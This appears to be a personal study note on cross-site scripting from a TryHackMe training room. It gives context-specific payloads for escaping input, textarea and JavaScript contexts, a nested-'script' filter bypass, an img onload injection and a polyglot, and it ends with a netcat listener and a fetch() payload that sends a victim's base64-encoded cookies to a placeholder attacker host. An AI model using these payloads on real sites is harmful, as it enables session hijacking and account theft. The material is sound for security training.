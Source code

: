 # Scenarios
### If you enter information into a field and it returns that info on a page such as:
![49444bf865cdc230d9855b53d93745c6.png](Cybersecurity/Screenshots/49444bf865cdc230d9855b53d93745c6.png)
-  Test for 
```
<script>alert('THM');</script>
```

### If your response is being reflected through an input tag:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)
- It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: 
```
"><script>alert('THM');</script>
```
- the `">` which closes the value parameter and then closes the input tag.  This now closes the input tag properly and allows the JavaScript payload to run:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/21a6597c0964f08c69ebffbf014a886a.png)

### same as the previous, but your name gets reflected inside an HTML tag, this time the textarea tag:
![c3d0d38d23fab0608bc3ca8b9441974c.png](Cybersecurity/Screenshots/c3d0d38d23fab0608bc3ca8b9441974c.png)
- to escape the textarea tag, use the following payload: 
```
</textarea><script>alert('THM');</script>
```
- `</textarea>` causes the textarea element to close so the script will run.

### your name gets reflected in some JavaScript code.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/80fd5abe95b63ce52ff0ff9f9f6f6d57.png)
- You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload 
```
';alert('THM');//
```
- The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

### if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.  
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/9bd2142b2bcd4b4cba34e571550294e4.png)  
- The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.  
- When a word gets removed from a string, there's a helpful trick that you can try:
**Original Payload:**
`<sscriptcript>alert('THM');</sscriptcript>`

**Text to be removed (by the filter):**
`<sscriptcript>alert('THM');</sscriptcript>`

**Final Payload (after passing the filter):**
`<script>alert('THM');</script>`

- To do this, use the following payload:
```
<sscriptcript>alert('THM');</sscriptcript>
```

### When prompted to enter an image path
Here, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8856b113fd514db704157837a6e6aeb4.png)  
- You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. 
- The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.
- change our payload to reflect this:
```
/images/cat.jpg" onload="alert('THM');
``` 
- Then viewing the page source, and you'll see how this will work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)

### Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
-  XSS polyglots are useful for **quick and broad** testing, but they **aren't enough** for thorough XSS testing. You’ll need to craft **context-specific payloads** to evade filters, WAFs, and different sanitization methods.

### Extract cookies when another user visits the same site and loads our script
Our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice.
1. Firstly, we'll need to set up a listening server to receive the information. `nc -lnvp PORT`
2. Build the payload:
```
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the request catcher URL or your IP address from your attacking box
- `PORT_NUMBER` is the port number you are using to listen for connections on 
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.
3. Wait for the connection


